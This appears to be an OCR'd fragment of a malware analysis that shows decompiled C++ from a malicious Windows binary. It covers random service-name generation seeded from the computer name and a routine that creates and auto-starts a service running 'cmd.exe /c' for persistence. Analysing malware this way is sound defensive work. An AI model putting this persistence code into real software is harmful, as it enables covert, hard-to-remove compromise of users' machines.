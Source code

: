 ```C++
  }
  srand(nSeed);
  index = 0;
  v5 = rand() % 8 + 8;
  if ( v5 > 0 )
  {
    do
      displayname[index++] = rand() % 26 + 'a';
    while ( index < v5 );
  }
  v6 = v5 + 3;
  while ( index < v6 )
    displayname[index++] = rand() % 10 + '0';
  result = displayname;
  displayname[index] = 0;
  return result;
}
```

This code takes advantage of the user's computer name. By multiplying each of the computer names by itself, a seed value of the initializer is initialized and a random number generator is used to generate a random service name. This random service name consists of 'a-z''0-9'.

```C++
signed int __cdecl StartService(char *pFullpath)
{
  signed int result; 
  SC_HANDLE hSCService; 
  char lpBinaryPathName; 
  SC_HANDLE hSCObject; 
  int nRet; 
  SC_HANDLE hSCManager; 

  nRet = 0;
  hSCManager = OpenSCManagerA(0, 0, SC_MANAGER_ALL_ACCESS);
  if ( hSCManager )
  {
    hSCObject = OpenServiceA(hSCManager, szServiceName, SERVICE_ALL_ACCESS);
    if ( hSCObject )
    {
      StartServiceA(hSCObject, 0, 0);
      CloseServiceHandle(hSCObject);
      result = 1;
    }
    else
    {
      sprintf(&lpBinaryPathName, Format, pFullpath);// cmd.exe /c "%s"
      hSCService = CreateServiceA(
                     hSCManager,
                     szServiceName,
                     szServiceName,
                     SERVICE_ALL_ACCESS,
                     SERVICE_WIN32_OWN_PROCESS,
                     SERVICE_AUTO_START,
                     SERVICE_ERROR_NORMAL,
                     &lpBinaryPathName,
                     0,
                     0,
                     0,
                     0,
                     0);
      if ( hSCService )
      {
        StartServiceA(hSCService, 0, 0);
```